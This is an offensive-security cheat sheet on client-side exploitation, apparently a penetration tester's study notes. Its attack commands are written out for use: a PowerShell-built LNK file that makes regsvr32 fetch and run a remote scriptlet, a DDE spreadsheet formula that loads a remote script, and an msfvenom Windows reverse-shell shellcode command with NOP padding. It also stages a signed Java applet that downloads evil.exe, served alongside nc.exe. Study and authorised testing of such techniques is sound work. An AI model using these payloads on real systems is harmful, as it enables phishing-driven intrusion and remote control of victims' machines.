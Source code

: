 ```yaml
---
title: Client Side
category: Exploitation
order: 1
---
```


> **Phishing**

* [My Phishing Tool](https://github.com/BinaryExile/Scripts/tree/master/Phishing)
* File Types:  .LNK, VBS, JS, URL, HTA, .EXE, ClickOnce, .scr
* Office Documents: OLE + executable file type, Macro docs, DDE

> **Execution Vectors**

{% highlight bash %}
#Using LNK Files
$object = new-object -COM WScript.Shell
$lnk = $object.CreateShortcut("MyLNK.lnk")
$lnk.WindowSyle = 7
$lnk.TargetPath = "%windir%\System32\regsvr32.exe"
$lnk.IconLocation = "C:\Program Files\Internet Explorer\iexplore.exe,1"
$lnk.Arguments = "/s /n /u /i:http://payload.com/malware.sct scrobj.dll"
$lnk.Save()

#Using DDE
=cscript|' /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://goo.gl/ksuyDR '!A0
{% endhighlight %}

* [ClickOnce](https://blog.netspi.com/all-you-need-is-one-a-clickonce-love-story/)
* [ClickOnce - Powerpick](https://www.sixdub.net/?p=555)

> **Browser Exploit**

* Passive: Use https://extremetracking.com/?free to determine user agent
* Active: Call or Phishing
* Download exploit
* service apache2 start
* Generate new shellcode that's the same size or smaller:<br> <code> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f js_le -e generic/none </code>
* Pad as needed with <code> %u9090</code>

> **Signed Java App**

{% highlight bash %}
javac -source 1.7 -target 1.7 Java.java
echo “Permissions: all-permissions” > /root/manifest.txt
keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123
jar cvf Java.jar Java.class
cp Java.class SignedJava.jar /var/www/
echo '<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://10.11.0.5:80/evil.exe"></applet>' > /var/www/html/java.html
cp /usr/share/windows-binaries/nc.exe /var/www/nc.exe
{% endhighlight %}

* [java.java](https://raw.githubusercontent.com/BinaryExile/Scripts/master/exploits/client%20side/java.java)
